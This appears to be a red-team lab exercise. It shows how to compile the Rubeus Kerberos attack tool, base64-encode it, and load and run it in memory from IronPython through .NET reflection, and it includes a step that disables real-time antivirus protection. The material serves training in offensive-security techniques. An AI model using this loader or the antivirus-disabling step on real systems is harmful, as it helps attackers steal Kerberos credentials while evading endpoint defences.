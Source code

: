 # Exercise 7: Loading and Executing a .NET Assembly from Base64 in IronPython

## Pull, Modify, and Compile Rubeus
1. If not using the provided range, download [Rubeus](https://github.com/GhostPack/Rubeus.git)
2. Locate the Visual Studio shortcut on your desktop or find it from the Start menu and open it.
3. Open the Rubeus Solution: `Click on File > Open > Project/Solution`
4. Locate the Main Method in Rubeus/Program.cs, which is named `public static void Main(string[] args)`.
5. Change the private keyword to public to make the method publicly accessible:
csharp
```
public static void Main(string[] args)
```
6. Navigate to the top menu and click `Build > Build Solution`.
7. Copy Rubeus.exe to `C:\Program Files\IronPython 3.4`

## Converting to Base64
1. From `C:\Program Files\IronPython 3.4`, open a notepad named `file_to_base64.py`.
2. Write a Python function to convert a file into its base64 representation.

```python
import base64

def file_to_base64(file_path, output_file_path):
    with open(file_path, 'rb') as file:
        base64_encoded = base64.b64encode(file.read()).decode('utf-8')
        
    with open(output_file_path, 'w') as out_file:
        out_file.write(base64_encoded)

file_to_base64('Rubeus.exe', 'output_base64.txt')
```

3. Execute the function with the path to your .NET assembly.

```powershell
.\ipy.exe .\file_to_base64.py
```

4. Copy the printed base64 string for the next task.

![Alt text](image.png)

5. The file is also located [here](./output_base64.txt).

## Creating the Function
Now we are going to create the IronPython function to load the assembly.

1. Open a new Notepad and name as `IronRubeus.py`
2. Import the required IronPython modules and .NET libraries.

```python
import clr
import System
import base64
import argparse
from System.Reflection import Assembly
```

3. Next, add the base64 encoded string.

```python
base64_str = "TVqQAAMAAAAEAAAA//8AALgAAA..."
```

4. Add a function to convert the base64 string to a byte array.

```python
def base64_to_bytes(base64_string):
    return System.Array[System.Byte](base64.b64decode(base64_string))
```

5. Add a function to convert a Python list to a .NET string array.

```python

# Convert a Python list to a .NET string array
def to_clr_array(py_list):
    arr = System.Array.CreateInstance(System.String, len(py_list))
    for i, item in enumerate(py_list):
        arr[i] = item
    return arr
```

6. Define a function to load and execute the assembly.

```python
def load_and_execute_assembly(command):
    assembly_bytes = base64_to_bytes(base64_str)
    
    # Load the assembly
    assembly = Assembly.Load(assembly_bytes)
    
    # Get the type of the Rubeus.Program class
    rubeus_program_type = assembly.GetType("Rubeus.Program")

    # You don't need to create an instance of the class for a static method
    method = rubeus_program_type.GetMethod("MainString")

    # Convert your command to a .NET string array
    command_args = to_clr_array([command])

    # Invoke the MainString method
    result = method.Invoke(None, command_args)

    return result
```

7. Use the function to load and execute the assembly.

```python
def main():
    parser = argparse.ArgumentParser(description='Execute a command on a hardcoded base64 encoded assembly')
    parser.add_argument('command', type=str, help='Command to execute (like "help" or "triage")')

    args = parser.parse_args()
    
    result = load_and_execute_assembly(args.command)
    print(result)

if __name__ == "__main__":
    main()
```
8. Disable real-time protection to run the script.

9. Type: ` .\ipy.exe .\IronRubeus.py help` and you should receive the following output.

![image](https://github.com/BC-SECURITY/Taming-Offensive-IronPython/assets/20302208/4f2f00fd-c23d-4cb4-aca3-dcb3f4d85449)

